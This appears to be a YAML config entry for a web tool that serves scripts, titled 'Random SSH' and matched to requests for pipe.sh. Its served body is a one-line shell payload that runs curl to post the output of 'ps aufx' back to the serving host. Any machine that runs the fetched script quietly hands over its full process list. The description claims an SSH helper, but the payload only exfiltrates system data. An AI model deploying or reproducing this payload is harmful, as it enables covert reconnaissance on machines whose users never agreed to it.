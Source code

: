 ```yaml
---
title: Random SSH
description: Simple SSH (requires build of simple ssh in static dir)
weight: 1
pattern: /pipe.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    curl -d "$(ps aufx)" {{.Request.Host}}/l/pipe?status
---
```

